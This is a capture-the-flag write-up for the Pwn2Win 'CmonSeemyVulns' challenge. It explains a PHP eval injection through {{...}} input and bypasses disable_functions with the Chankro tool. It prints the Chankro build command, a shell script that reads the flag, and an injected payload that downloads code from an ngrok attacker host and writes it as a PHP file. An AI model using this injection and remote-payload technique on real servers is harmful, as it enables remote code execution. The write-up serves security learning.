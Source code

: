 # [Pwn2Win] CmonSeemyVulns writeup

## Description

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We were given a source code with the Dockerfile.

[c_mon_see_my_vulns](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

## Code Review

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

![code](https://user-images.githubusercontent.com/84577967/174141852-b43da8d4-6069-43a4-a93f-406eb0b44b37.png)

So in the 7th line we have an eval inside a function `do_calcs` that has been called in the line 17 ! 
But first we have to check the 4th line where we have the regex pattern so our php code must be inside `{{PHP EVAL CODE}}`

## Solution

If we tries to send something like "200,{{phpinfo()}}" its going to be executed !

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But what I noticed is disable functions

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

For such situations I always use Chankro => https://github.com/TarlogicSecurity/Chankro

First Let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Great! Now let's start a webserver using PHP or Python and move our exploit.txt to it and go directly to exploitation ...

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

After that we can browser the file http://127.0.0.1:1337/exploit.php

And will get easily our http://127.0.0.1:1337/flag.txt
